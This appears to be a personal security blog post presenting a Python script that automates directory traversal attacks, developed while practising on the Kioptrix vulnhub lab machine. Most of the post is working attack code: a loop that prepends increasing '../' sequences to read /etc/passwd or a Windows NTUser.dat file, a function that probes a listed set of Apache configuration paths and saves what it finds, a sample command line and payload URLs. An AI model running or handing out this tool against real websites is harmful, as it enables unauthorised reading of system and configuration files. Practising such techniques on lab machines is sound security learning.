 ```yaml
---
layout: post
author: Donald Murchison
category: pr0j3cts
title: "Directory Traversal Script"
---
```


{% highlight bash %}
http://vulnerable-site/index.php?path=../../../etc/passwd
{% endhighlight %}
<br>
This project is a simple python script I wrote to help automate directory traversal attacks. I started this project while I was practicing offensive techniques with the Kioptrix: 2014 (#5) vulnhub machine.

I will be posting a full write up of [Kioptrix: 2014 (#5)](#) in the near future.

***Directorytraversal.py***([raw]({{ site.url }}/assets/traversal/directorytraversal.txt))

{% highlight python %}
#Try to find root directory with directory traversal
#Then try to find the config file for server

#To-do:
#	Add options for servers other than apache

from optparse import OptionParser	
import requests
import urllib

def findConf(traversal,server,outpath):
	print "Trying to find config file"
	
	with open("./{}conflist".format(server)) as infile:
			for line in infile:
				r = requests.get(traversal.format(line.strip()))
				#print traversal.format(line.strip())
				if r.status_code == 200 and r.content != "":
					print "Found config {}".format(line)
					break

	#Use .html so I don't have to deal with formatting 
	with open(outpath+"config.html", 'w') as f:
		f.write(traversal.format(line.strip())+"\n\n")
		f.write(urllib.unquote(r.content))

		
def main():
	parser = OptionParser("usage%prog -u <url with {} at injection point> -s <web server> -o <outfile> -w ")
	parser.add_option('-u', '--url', dest='url', type='string', help='url with brackets at point to try traversal')
	parser.add_option('-s', '--server', dest='server', default="apache", type='string', help='Specify server:\n\tapache\n\ttodo-add more lists')
	parser.add_option('-o', '--out', dest='outpath', default="./", type='string', help='outfile for config file if found')
	parser.add_option('-w', '--windows', action='store_true', dest='win', default=False, help='Specify server running in windows environment')
	(options, args) = parser.parse_args()

	url = options.url
	server = options.server

	#Add robustness for filepath later
	outpath = options.outpath

	if options.win:
		#This section will need to change when I can test on Windows machine 
		slash="\\"
		user = "Administrator"
		localfile = "C:\\Users\\Administrator\\NTUser.dat"
	else:
		slash="/"
		user = "root"
		localfile="etc%2fpasswd"

	#Try up to 30
	for i in range(30):
		tmp = ""
		tmp = urllib.quote_plus(("..{}".format(slash))*(i+1))
		tmp += "{}"
		
		traversal = url.format(tmp)
		print traversal.format(localfile)
		r = requests.get(traversal.format(localfile))

		#print r.content
		if r.status_code == 200 and user in r.content:
		#	print "Done"
			with open(outpath+"dt-file.html",'w') as f:
				f.write(r.content)
			findConf(traversal,server,outpath)	
			break


if __name__ == '__main__':
	main() 
{% endhighlight %}

I tried to write the script in a way that I can continue to add new features in the future. Below I will go over how I used this script for the Kioptrix: 2014 vm.

To run the script I specified the url (-u) and server (-s).
{% highlight bash %}
donald@comp:~$ python directorytraversal.py -u "http://vulnerable-site/index.php?path={}" -s apache
{% endhighlight %}

Two things to note about the -u option, are that the url should be in quotations and the parameter in the url which is vulnerable to directory traversal should be specified by {}.

I chose to specify the url this way so that I could easily use the format function to place the series of "../" anywhere in the url.

After setting the options correctly, I needed to automate finding the root directory by trying access the /etc/passwd file. 

I searched for the passwd file because Kioptrix is a linux machine which will always have /etc/passwd.

{% highlight python %}

#Try up to 30
	for i in range(30):
		tmp = ""
		tmp = urllib.quote_plus(("..{}".format(slash))*(i+1))
		tmp += "{}"
		
		traversal = url.format(tmp)
		print traversal.format(localfile)
		r = requests.get(traversal.format(localfile))

		#print r.content
		if r.status_code == 200 and user in r.content:
		#	print "Done"
			with open(outpath+"dt-file.html",'w') as f:
				f.write(r.content)
			findConf(traversal,server,outpath)	
			break

{% endhighlight %} 

Above, is the main snippet of code to accomplish finding the root directory. Essentially, it is just a loop which will make a get request to the url with an increasing amount of "../" prepended to "/etc/passwd".

After making the request, it will check for a 200 status code and for "root", user variable, in the content. I added the check for user in content because Kioptrix was returning a 200 status code in every response. 

You might notice that the treversal variable was written in a weird way and contains a {} in the string. An example instance of traversal is below (minus the url encoding):
{% highlight bash %}
http://vulnerable-site/index.php?path=../../../{}
{% endhighlight %}
I then format the string with etc/passwd while passing it to the GET request. This way I have the correct traversal path for the root directory stored in a variable. 

The next thing I wanted to automate was finding the apache config file. The config file can have many different names or paths and I wanted to easily be able to test for each one.

I wrote a method which makes a get request for each entry in a list of possible config files. The naming convention for the list is ./{server}conflist

{% highlight python %}
def findConf(traversal,server,outpath):
	print "Trying to find config file"
	
	with open("./{}conflist".format(server)) as infile:
			for line in infile:
				r = requests.get(traversal.format(line.strip()))
				#print traversal.format(line.strip())
				if r.status_code == 200 and r.content != "":
					print "Found config {}".format(line)
					break

	#Use .html so I don't have to deal with formatting 
	with open(outpath+"config.html", 'w') as f:
		f.write(traversal.format(line.strip())+"\n\n")
		f.write(urllib.unquote(r.content))
{% endhighlight %}

Since I had the root directory path stored in traversal, I could pass the variable to my function and format the string with the different config files.

Below is my current list of paths to test for apache (linux):
{% highlight python %}
etc/httpd/httpd.conf
etc/httpd/apache2.conf
etc/httpd/conf/httpd.conf
etc/httpd/conf/apache2.conf
etc/conf/httpd.conf
etc/conf/apache2.conf
etc/apache2/httpd.conf
etc/apache2/apache2.conf
etc/apache22/httpd.conf
etc/apache22/apache2.conf
usr/local/etc/httpd/httpd.conf
usr/local/etc/httpd/apache2.conf
usr/local/etc/httpd/conf/httpd.conf
usr/local/etc/httpd/conf/apache2.conf
usr/local/etc/conf/httpd.conf
usr/local/etc/conf/apache2.conf
usr/local/etc/apache2/httpd.conf
usr/local/etc/apache2/apache2.conf
usr/local/etc/apache22/httpd.conf
usr/local/etc/apach22/httpd.conf
opt/etc/httpd/httpd.conf
opt/etc/httpd/apache2.conf
opt/etc/httpd/conf/httpd.conf
opt/etc/httpd/conf/apache2.conf
opt/etc/conf/httpd.conf
opt/etc/conf/apache2.conf
opt/etc/apache2/httpd.conf
opt/etc/apache2/apache2.conf
opt/etc/apache22/httpd.conf
opt/etc/apache22/apache2.conf
{% endhighlight %} 

Please contact me if you have suggestions for the apache config list or lists for other servers.

As I continue to learn, I will update this tool to be able to automate exploitation of different linux and windows servers.


